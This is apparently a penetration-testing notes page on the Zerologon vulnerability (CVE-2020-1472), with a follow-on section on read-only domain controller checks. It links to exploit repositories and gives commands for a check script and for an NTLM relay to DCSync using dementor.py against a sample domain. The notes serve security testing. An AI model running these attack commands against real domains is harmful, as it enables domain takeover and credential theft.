 # Zerologon

**CVE-2020-1472**

* [https://www.secura.com/uploads/whitepapers/Zerologon.pdf](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
* [https://twitter.com/\_dirkjan/status/1306280566313156608](https://twitter.com/_dirkjan/status/1306280566313156608)
* [[PDF] Understanding and Exploiting Zerologon (Lucideus)](https://dl.packetstormsecurity.net/papers/general/Understanding_and_Exploiting_Zerologon.pdf)

Check:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

```
$ python3 zerologon_tester.py DC01 10.10.13.38
```

Exploit:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

Exploits above **will break the domain!** Use this technique by @dirkjanm to abuse Zerologon safely:

* [https://dirkjanm.io/a-different-way-of-abusing-zerologon/](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

```
$ sudo ntlmrelayx.py -t dcsync://DC01.megacorp.local -smb2support
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC02.megacorp.local
```




## RODC Notes

Checking that a DC is a RODC (see if `WRITABLE` flag is present):

```
PS > nltest.exe /dsgetdc:megacorp.local
PS > nltest.exe /dsgetdc:megacorp.local /server:DC1
```

* [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9)
* [https://lists.samba.org/archive/samba-technical/2016-November/117016.html](https://lists.samba.org/archive/samba-technical/2016-November/117016.html)
* [https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467](https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467)
* [https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS](https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS)

> "When a user authenticates to an RODC a check is performed to see if the password is cached. If the password is cached, the RODC will authenticate the user account locally. If the user’s password is not cached, then the RODC forwards the authentication request to a writable Domain Controller which in turn authenticates the account and passes the authenticated request back to the RODC. Once the user account is authenticated, the RODC makes another request for the replication of the user’s password in a unidirectional replication providing the account has been configured to allow replication. In order to allow the user password to be cached on RODC, you could set up it by configuring the Password Replication Policy."

So when authenticating at a RODC and Password Replication Policy rejects caching the machine password, then `STATUS_NO_TRUST_SAM_ACCOUNT` may be met.
